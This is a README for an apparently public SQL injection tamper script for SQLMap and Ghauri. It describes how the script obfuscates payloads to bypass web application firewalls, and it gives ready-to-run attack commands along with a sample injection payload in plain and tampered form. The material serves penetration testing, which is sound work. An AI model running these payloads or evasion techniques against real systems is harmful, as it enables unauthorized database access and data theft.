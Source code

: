 # SQLMorph  ~ Tamper Script for SQLMap & Ghauri

This is a custom **tamper script** for **SQLMap** and **Ghauri**, designed to **obfuscate SQL injection payloads** and help bypass Web Application Firewalls (WAFs). It modifies SQL queries by applying **random case changes, URL encoding, logical operator substitution**, and other techniques.

## Features
- 🔹 Randomizes case of SQL keywords to evade detection
- 🔹 Replaces `OR` with `||` and `AND` with `&&`
- 🔹 Injects random spaces and comments (`/**/`) to break up keywords
- 🔹 URL encodes parts of the payload for further obfuscation
- 🔹 Supports combination with other tamper scripts for enhanced effectiveness

## Installation

Clone the repository:
```bash
git clone https://github.com/manojxshrestha/SQLMorph.git
cd SQLMorph
```

## Usage

### With SQLMap
Use the tamper script alongside other tampers:+
```bash
sqlmap -u "https://example.com/?id=2" --tamper=sqlmorph.py,space2comment
```

Example using multiple tamper scripts:
```bash
sqlmap -u "https://example.com/?id=2" --tamper=sqlmorph.py,space2comment,randomcase,charencode
```

### With Ghauri
Use the tamper script with Ghauri for blind SQL injection:
```bash
ghauri -u "https://example.com/?id=2" --fetch-using=hsqlmorph.py/space2comment
```

### Example Input & Output
#### **Original Payload:**
```sql
SELECT * FROM users WHERE username = 'admin' OR 1=1 --
```
#### **Tampered Output:**
```sql
sElEcT/**/*/**/FrOm/**/users/**/wHeRe/**/username/**/=/**/'admin'/**/||/**/1=1--
```

## Combining with Other Tamper Scripts
To further obfuscate SQLi payloads, you can combine multiple tamper scripts:
```bash
sqlmap -u "https://example.com/?id=2" --tamper=sqlmorph.py,space2comment,randomcase
```

## Disclaimer
🚨 **For ethical use only!** 🚨 This script is intended for **security testing and research purposes**. Unauthorized use on systems you do not own or have permission to test is illegal and may result in serious consequences.

